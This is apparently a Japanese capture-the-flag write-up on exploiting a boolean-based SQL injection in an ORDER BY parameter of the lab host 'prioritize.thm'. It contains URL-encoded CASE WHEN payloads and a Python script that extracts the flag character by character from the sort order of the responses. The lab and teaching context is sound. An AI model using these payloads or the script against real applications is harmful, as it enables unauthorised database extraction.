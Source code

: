 ルーム名をヒントに、order に焦点を絞って調べたところ、order by SQL injection の情報を見つけた。

https://khalid-emad.gitbook.io/order-by-sql-injection#code-analysis

下記の方法でSQLiの余地があることを確認した。

```sh
# title でソートされる
http://prioritize.thm/?order=CASE%20WHEN(1=1)%20THEN%20title%20ELSE%20date%20END

# date でソートされる
http://prioritize.thm/?order=CASE%20WHEN(1=0)%20THEN%20title%20ELSE%20date%20END
```

参照元では、下記の形でフラグの値を絞っていた。

```SQL
CASE WHEN((select substr(flag,1,1) from flag)= 'f') THEN symbol ELSE atomic_number END
```

試しに、同じテーブル名、列名で実行してみたら、flag テーブルにfrag列があり、1文字目が f であることが分かった。

```sh
# date でソートされる
http://prioritize.thm/?order=CASE%20WHEN((select%20substr(flag,1,1)%20from%20flag)=%20%27a%27)%20THEN%20title%20ELSE%20date%20END

# title でソートされる
http://prioritize.thm/?order=CASE%20WHEN((select%20substr(flag,1,1)%20from%20flag)=%20%27f%27)%20THEN%20title%20ELSE%20date%20END
```

回答の桁数が非常に長いのでスクリプト化する。

## スクリプト

| title | date         |
|-------|--------------|
| aaa   | 2025-06-30   |
| zzz   | 2025-06-01   |

という２データを登録しているとする。  
実際の応答を見て、1行目のタイトルが含まれ、2行目のタイトルが含まれない位置を 3096 バイトと設定。

```python
import requests
import string

url = "http://prioritize.thm/"
charset = string.ascii_letters + string.digits + "_{}-"
known = ""
max_len = 50  # フラグの最大長と仮定

for i in range(1, max_len + 1):
    found = False
    for c in charset:
        payload = f"CASE WHEN ((select substr(flag,1,{i}) from flag)='{known + c}') THEN title ELSE date END"
        params = {'order': payload}
        r = requests.get(url, params=params)

        # 簡単な判定：レスポンス内の順序で判定
        if 'aaa' in r.text[:3096]:  # 先頭が title でソートされている場合
            known += c
            print(f"[+] Found character {i}: {c} -> {known}")
            found = True
            break

```